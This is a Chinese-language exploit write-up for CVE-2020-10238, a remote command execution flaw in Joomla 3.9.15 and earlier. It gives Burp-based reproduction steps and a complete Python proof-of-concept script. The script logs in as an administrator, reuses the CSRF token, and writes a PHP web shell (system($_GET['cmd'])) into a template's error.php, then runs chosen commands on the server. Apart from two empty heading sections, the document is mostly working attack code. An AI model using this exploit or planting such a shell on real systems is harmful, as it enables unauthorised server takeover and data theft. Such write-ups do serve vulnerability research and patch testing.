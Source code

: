 （CVE-2020-10238）Joomal \<= 3.9.15 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

\<= 3.9.15

三、复现过程
------------

    http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==

使用admin进行登录

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId24.png)

### 思路：

-   首先超级管理员跟管理员的后台界面是不同的
-   将恶意代码添加到index.php里面
-   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId26.png)

> 为了方便阅读，这里我们删掉index.php的内容，只保留shell

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId27.png)

> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId28.png)

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId29.png)

> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId30.png)

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId31.png)

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId32.png)

### poc

![](./resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId34.png)

    #!/usr/bin/python
    import sys
    import requests
    import re
    import argparse

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[-] Cannot find CSRF token!\n") + "[-] You are not admin account!"
            return None
        return match.group(1)
    def try_admin_login(sess,url,uname,upass):
        admin_url = url+'/administrator/index.php'
        print('[+] Getting token for admin login')
        resp = sess.get(admin_url, verify=True)
        token = extract_token(resp)
        # print token
        if not token:
            return False
        print('[+] Logging in to admin')
        data = {
            'username': uname,
            'passwd': upass,
            'task': 'login',
            token: '1'
        }
        resp = sess.post(admin_url, data=data, verify=True)
        if 'task=profile.edit' not in resp.text:
            print('[!] Admin Login Failure!')
            return None
        print('[+] Admin Login Successfully!')
        return True

    def rce(sess,url,cmd):
        getjs = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D'
        resp = sess.get(getjs, verify=True)
        token = extract_token(resp)
        if (token==None) : sys.exit()
        filename='error.php'
        shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
        shdata_up = {
            'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
            'task': 'template.apply',
            token: '1',
            'jform[extension_id]': '506',
            'jform[filename]': '/' + filename
        }
        shreq = sess.post(shlink, data=shdata_up)
        path2shell = '/templates/protostar/error.php?cmd='+cmd
        # print '[+] Shell is ready to use: ' + str(path2shell)
        print '[+] Checking:'
        shreq = sess.get(url + path2shell)
        shresp = shreq.text
        print shresp + '[+] Shell link: \n' + (url + path2shell)
        print '[+] Module finished.'

    def main() :
        
        # Construct the argument parser
        ap = argparse.ArgumentParser()
        # Add the arguments to the parser
        ap.add_argument("-url", "--url", required=True,
                        help=" URL for your Joomla target")
        ap.add_argument("-u", "--username", required=True,
                        help="username")
        ap.add_argument("-p", "--password", required=True,
                        help="password")
        ap.add_argument("-cmd", "--command", default="whoami",
                        help="command")
        args = vars(ap.parse_args())
        # target
        url = format(str(args['url']))
        print '[+] Your target: ' + url
        # username
        uname = format(str(args['username']))
        # password
        upass = format(str(args['password']))
        # command
        command = format(str(args['command']))
        
        sess = requests.Session()
        if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
        rce(sess,url,command)
    if __name__ == "__main__":
        sys.exit(main())

参考链接
--------

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238
